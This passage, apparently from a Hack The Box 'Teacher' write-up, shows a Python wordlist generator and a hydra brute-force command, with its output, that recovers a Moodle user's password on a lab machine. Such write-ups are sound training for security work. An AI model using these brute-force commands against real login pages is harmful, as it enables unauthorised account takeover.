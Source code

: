 Guest login is enabled but we don't have access to anything useful with this account.

We got a partial password from the `5.png` file but we're missing the last letter. I used the following script to generate a wordlist:

```python
f = open('pwd', 'w')
for i in range (0,127):
	f.write('Th4C00lTheacha{}\n'.format(chr(i)))
```	

Then using hydra we can bruteforce the `giovanni` account. We'll match on `Set-Cookie` as a positive response since the cookie is only set when we submit the correct credentials.

```
# hydra -I -l giovanni -P pwd.txt 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-01 21:37:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 128 login tries (l:1/p:128), ~8 tries per task
[DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie
[80][http-post-form] host: 10.10.10.153   login: giovanni   password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-01 21:38:06
```

We found the password: `Th4C00lTheacha#`

We can now log in to the Moodle webpage with `giovanni / Th4C00lTheacha#`:

![](/assets/images/htb-writeup-teacher/giovanni.png)
